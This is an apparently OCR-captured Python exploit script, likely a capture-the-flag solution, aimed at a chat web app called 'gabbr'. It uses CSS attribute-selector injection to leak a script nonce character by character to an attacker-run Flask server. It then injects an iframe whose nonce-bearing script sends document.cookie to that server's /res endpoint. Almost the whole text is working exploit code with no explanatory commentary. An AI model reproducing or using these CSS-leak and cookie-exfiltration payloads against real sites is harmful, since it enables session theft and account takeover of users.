 ```python
            'body > script[nonce^="%s"] ~ div',
            'body > script[nonce^="%s"] ~ input',
            'body > script[nonce^="%s"] ~ nav',
            'script[nonce^="%s"] ~ #messages',
            'script[nonce^="%s"] ~ #status',
            'script[nonce^="%s"] ~ #chatbox',
            'script[nonce^="%s"] ~ #recaptcha',
            'script[nonce^="%s"] ~ nav > a',
            'script[nonce^="%s"] ~ nav > #report-link',
            'script[nonce^="%s"] ~ nav > #username',
            'body script[nonce^="%s"] ~ #messages',
            'body script[nonce^="%s"] ~ #status',
            'body script[nonce^="%s"] ~ #chatbox',
            'body script[nonce^="%s"] ~ #recaptcha',
            'body script[nonce^="%s"] ~ nav > a',
            'body script[nonce^="%s"] ~ nav > #report-link',
            'body script[nonce^="%s"] ~ nav > #username',
            'body script[nonce^="%s"] ~ nav > [href="/"]',
            'body script[nonce^="%s"] ~ nav > [href="#"]',
            ]

    def exploit(nonce, url):
        x = """<iframe srcdoc="<script nonce=%s>alert(document.cookie); var x = document.createElement('img'); x.src = '%s/res?c=' + document.cookie;</script>"></iframe>""" % (nonce, url)
        msg = {"username" : "aaa", "type": "gabbr-message", "content": x}
        print(json.dumps(msg))
        socket.send(json.dumps(msg))

    def generate_style(c, url):
        style = "<style>"
        for x in "abcdef" + string.digits:
            style = style + ((payloads[len(c)] + '{ background:url("%s/?match=%s") } ') % (c + x, url, c + x))
        style = style + "</style>"
        return style

    @app.route('/')
    def handler():
        match = request.args.get('match')
        print(match)
        if len(match) == 24:
            exploit(match, URL)
        else:
            send_req(match)
        return "a"

    @app.route('/res')
    def res():
        match = request.args.get('c')
        print(match)
        return "a"


    def send_req(match):
        msg = {"username" : "aaa", "type": "gabbr-message", "content": generate_style(match, URL)}
        socket.send(json.dumps(msg))

    if __name__ == '__main__':
        uri = "wss://gabbr.hitme.tasteless.eu/" + sys.argv[1]
        socket = websocket.WebSocket()
        socket.connect(uri)
        print(generate_style("", URL)) # This outputs the initial payload, we did it manually to avoid certain concurrency issues
```